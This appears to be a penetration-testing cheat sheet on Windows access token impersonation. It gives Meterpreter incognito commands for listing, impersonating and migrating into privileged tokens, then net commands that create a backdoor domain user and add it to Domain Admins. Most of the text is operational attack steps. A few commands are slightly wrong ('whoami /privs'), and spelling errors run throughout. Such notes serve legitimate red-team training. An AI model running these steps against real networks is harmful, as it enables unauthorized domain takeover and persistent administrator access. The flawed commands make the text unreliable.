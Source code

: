 # Access Token Impersionation

## Prerequisites

User privs **required**:

* SeAssignPrimaryToken: allows a user to impersonate tokens
* SeCreateToken: allows a user to create an arbitrary token with administrative privileges
* SeImpersonatePrivilege: allowa a user to create a process under the security context of another user, typically with administrative privileges

```bash
# check privs in meterpreter session
getprivs

# check in cmd
whoami /privs
```



## Impersionation with Metasploit

<pre class="language-bash"><code class="lang-bash"># load incognito module
load incognito

<strong># get token list of the target for impersonation
</strong>list_tokens -u

# copy a token from previusly list and impersonate
impersonate_token TOKEN

# get a PID of explorer process
pgrep explorer

# migrate to explorer process PID
migrate PID
</code></pre>



## Post Impersonation strategy

Once we can impersonate a Domain Admin account (we do not know the password), we can add a new user to the Domain and add his to Domain Admin group. In this way we have own domain admin account.

<pre class="language-powershell"><code class="lang-powershell"><strong># create domain user from shell
</strong><strong>net user /add $USER $PASS /domain
</strong>
# add user just created to Domain Admins group
net group "Domain Admins" $USER /ADD /DOMAIN
</code></pre>
